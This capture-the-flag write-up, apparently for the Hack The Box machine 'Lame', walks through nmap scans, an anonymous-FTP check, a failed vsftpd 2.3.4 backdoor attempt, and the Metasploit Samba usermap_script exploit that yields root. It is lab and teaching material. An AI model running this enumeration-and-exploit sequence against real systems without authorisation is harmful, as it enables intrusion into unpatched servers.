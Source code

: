 # Summary
### 1. NMAP Scan
Typical NMAP scan, reveals FTP `vsFTPd v2.3.4` on Port 21.

### 2. First Attack on FTP
We find out if we can upload to the FTP, but could only do Anonymous Read. We also try attacking with FTP metasploit modules, but did not work.

### 3. Finding another attack vector
We do more NMAP scans and find `netbios-ssn Samba smbd 3.0.20-Debian`.

### 4. Second attack on Port 445 Samba
SearchSploit reveals it is susceptible to a `Username map script Command Execution` Metasploit module.
We run it and is able to compromise the system.

# Attack
## 1. NMAP Scan
We do our typical NMAP scan!
```
hippoeug@kali:~$ nmap -sC -sV 10.10.10.3 -Pn -v
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-02 21:11 +08
...
Scanning 10.10.10.3 [1000 ports]
Discovered open port 22/tcp on 10.10.10.3
Discovered open port 445/tcp on 10.10.10.3
Discovered open port 139/tcp on 10.10.10.3
Discovered open port 21/tcp on 10.10.10.3
...
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.16
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h30m20s, deviation: 3h32m10s, median: 18s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-01-02T08:12:15-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
...
```
The FTP looks interesting, let's try that out first.

## 2. First Attack on FTP
Shows Port 21 FTP Login allowed amongst other opened ports. Let's see if we can first upload a reverse shell.
```
hippoeug@kali:~$ msfconsole
...
msf5 > use auxiliary/scanner/ftp/anonymous
msf5 auxiliary(scanner/ftp/anonymous) > show options
...
msf5 auxiliary(scanner/ftp/anonymous) > run

[+] 10.10.10.3:21         - 10.10.10.3:21 - Anonymous READ (220 (vsFTPd 2.3.4))
[*] 10.10.10.3:21         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
Unfortunately we only get anonymous read access.

Doing `nc 10.10.10.3 21` also confirms it is running `vsFTPd v2.3.4`.

`searchsploit vsftpd 2.3.4` shows `Backdoor Command Execution`.
However, metasploit attacks etc didn't work.

Sources:
- https://www.hackingtutorials.org/metasploit-tutorials/exploiting-vsftpd-metasploitable/
- https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/
- https://metalkey.github.io/vsftpd-v234-backdoor-command-execution.html

## 3. Finding another attack vector
Our first NMAP scan was useless. Let's try more nmap scans!

`nmap --script nmap-vulners -sV 10.10.10.3 -Pn -v` but didn't turn out to be useful. (Source: https://securitytrails.com/blog/nmap-vulnerability-scan).

Let's try something else which turned out to be more useful.
`nmap -sC -sV -A -v 10.10.10.3 -Pn`
```
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h30m18s, deviation: 3h32m07s, median: 18s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-11-26T07:45:56-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

```

## 4. Second attack on Port 445 Samba
Shows Samba smbd 3.0.20-Debian.
`searchsploit samba 3.0.20`.
```
hippoeug@kali:~$ searchsploit samba 3.0.20
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                                              | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                    | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                                               | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                                                                               | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                       | linux_x86/dos/36741.py
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

There are a few interesting choices, but we are going for `Username map script Command Execution` Metasploit module.
Researching it, we find https://securitytrails.com/blog/nmap-vulnerability-scan.
Let's run the metasploit script `use exploit/multi/samba/usermap_script`.

Boom, we got root access and found the flags!
